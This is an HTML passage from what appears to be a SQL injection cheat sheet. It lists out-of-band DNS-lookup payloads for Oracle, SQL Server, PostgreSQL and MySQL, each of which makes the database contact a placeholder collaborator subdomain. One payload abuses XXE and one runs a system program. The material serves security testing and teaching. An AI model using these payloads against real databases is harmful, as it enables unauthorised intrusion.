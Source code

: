 <h2>DNS lookup</h2>
<p>
    You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use <a href="/burp/documentation/desktop/tools/collaborator">Burp Collaborator</a> to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.
</p>
<table>
    <tr>
        <th>
            Oracle
        </th>
        <td>
            <p>(<a href="/web-security/xxe">XXE</a>) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:</p>
            <code>SELECT EXTRACTVALUE(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"&gt; %remote;]&gt;'),'/l') FROM dual</code>
            <p>The following technique works on fully patched Oracle installations, but requires elevated privileges:</p>
            <code>SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')</code>
        </td>
    </tr>
    <tr>
        <th>
            Microsoft
        </th>
        <td>
            <code>exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'</code>
        </td>
    </tr>
    <tr>
        <th>
            PostgreSQL
        </th>
        <td>
            <code>copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'</code>
        </td>
    </tr>
    <tr>
        <th>
            MySQL
        </th>
        <td>
            <p>The following techniques work on Windows only:</p>
            <code>LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')</code><br />
            <code>SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code>
        </td>
    </tr>
</table>
